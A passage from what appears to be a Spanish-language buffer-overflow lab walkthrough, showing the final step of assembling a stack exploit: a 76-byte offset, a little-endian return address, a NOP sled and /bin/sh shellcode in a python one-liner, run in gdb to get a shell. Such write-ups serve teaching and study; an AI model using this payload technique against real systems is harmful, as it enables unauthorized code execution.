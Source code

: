 ![Segmentation Fault](/assets/images/memory.png)

### 4. Payload Final

Ya como paso final solo debemos unir todos los datos que hemos ido recolectando en los pasos anteriores.

- **Offset** = 76 `(multiplicar por "A").`
- **Dirección en memoria** = 0xbfffefa0 `(debe estar en formato Little-Endian="\xa0\xef\xff\xbf").`
- **Nobs** = \x90 `(en mi caso los multiplicare por 100 tu puedes multiplicarlo por cualquier número, mientras mayor sea la cantidad, mejor).`
- Shellcode = [Shell Code](https://www.exploit-db.com/exploits/43735) `(en mi caso elegí uno que me permite obtener una shell al ejecutarlo).`

```python
$(python -c 'print "A"*76 + "\xa0\xef\xff\xbf" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x4>
```

Si ejecutamos nuestro payload desde `gdb` podemos observar que en efecto nos devuelve nuestra shell, pero en este caso como el usuario con pocos privilegios.

![Segmentation Fault](/assets/images/shell.png)
